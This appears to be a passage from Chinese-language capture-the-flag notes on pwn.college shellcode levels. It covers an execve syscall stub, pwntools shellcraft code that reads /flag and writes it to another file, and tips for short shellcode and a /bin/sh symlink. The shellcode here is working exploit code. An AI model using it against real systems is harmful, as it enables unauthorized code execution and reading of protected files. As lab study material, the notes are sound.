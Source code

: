 ```
    xor edx, edx /* 0 */
    /* call execve() */
    push 0x3b /* SYS_execve */
    pop rax
    syscall
```
## ♥♥orw 实现复制 flag 到某个文件
```python
sh1 = b''
sh1 += asm(shellcraft.open('/flag',0,0)) 					# 打开 /flag 文件
sh1 += asm(shellcraft.open('/home/hacker/Desktop/FLAG',1,0))	
# 打开FLAG文件。如果需要手写，这里可以简化，修改一下工作目录即可=====> open('f',1,0)
sh1 += asm(shellcraft.sendfile(1,0,0,1024))
```
```
sh1 = b''
sh1 += asm(shellcraft.open('/flag',0,0)) # 打开 /flag 文件进行读取
sh1 += asm('mov rdi,rax') # 将文件描述符移动到 rdi 以进行后续读/写

# 从 /flag 读取到 .bss 部分
sh1 += asm(shellcraft.read('rax',elf.bss()+0x100,1024))

sh1 += asm(shellcraft.open('/home/hacker/Desktop/FLAG',1,0)) # 打开 FLAG 文件进行写入
sh1 += asm('mov rsi,rax') # 将文件描述符移动到 rsi 进行写入

# 从 .bss 部分写入 FLAG 文件
sh1 += asm(shellcraft.write('rsi',elf.bss()+0x100,1024))
```
# level 8 18 字节 shellcode,[ 移除写入权限 ]
> 短字节 shellcode 参见[（二）笔记](https://www.yuque.com/hacker_muye.com/xwoluc/fsom3afzggf9pu0e)
> Tips：使用 mov 指令通常会比使用 pop push 指令得到的 shellcode 长，但是 pop,push 对于操作数据长度有限制
> 同时需要注意 系统调用函数的参数 是 立即数/字符串 还是 **地址映射的路径【一级映射，需要 pop,push 或者 mov xxx,rsp 操作】效果如：rbx:0x7fff......——> xxxxxx（/bin/sh）**

```basic
shellcode_size = read(0, shellcode_mem, 0x12);
assert(shellcode_size > 0);

puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## 根据程序状态编写短 shellcode
> 由于 pwn.college 中 execve 执行获取 shell 需要-p 参数，会使得 shellcode 变长。
> 为了适应常规只需要得到 shell 就可以有 root 权限，以**本地调试**结果为例，

### 分析
**先决条件：/bin/sh 软连接到/sh**
> 建立软连接： ln -s /bin/sh  /sh
